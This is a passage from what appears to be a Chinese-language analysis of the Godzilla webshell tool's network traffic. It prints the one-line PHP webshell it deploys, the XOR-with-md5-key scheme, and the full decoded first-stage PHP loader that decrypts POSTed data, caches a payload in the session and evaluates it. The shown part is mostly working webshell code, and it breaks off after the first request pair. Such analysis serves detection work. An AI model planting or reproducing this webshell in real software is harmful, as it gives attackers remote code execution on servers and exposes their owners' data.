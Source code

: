 ## 哥斯拉

1. 哥斯拉生成的木马为如下一句话木马，哥斯拉拥有`密码`和`密钥`2个概念，为用户指定无默认值
```php
<?php
eval($_POST["pass"]);
```

2. 以`PHP_EVAL_XOR_BASE64`加密器分析，这里设`密码`为`pass`，`密钥`为`key1`，会使用该密钥进行异或操作
![](/data/image/web/flow/image-13.png)

其中，`密码`类似`菜刀`和`蚁剑`，定义了payload的执行框架，`密钥`则通过`md5("key1")[0:16]`得到

3. 哥斯拉点击`进入`后（执行其他命令之前），抓包会发现3对请求和响应，下面逐个分析
![](/data/image/web/flow/image-11.png)

**第一对**
请求`pass`参数
![](/data/image/web/flow/image-12.png)
```php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='key1';
$payloadName='payload';
$key='c2add694bf942dc7';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```
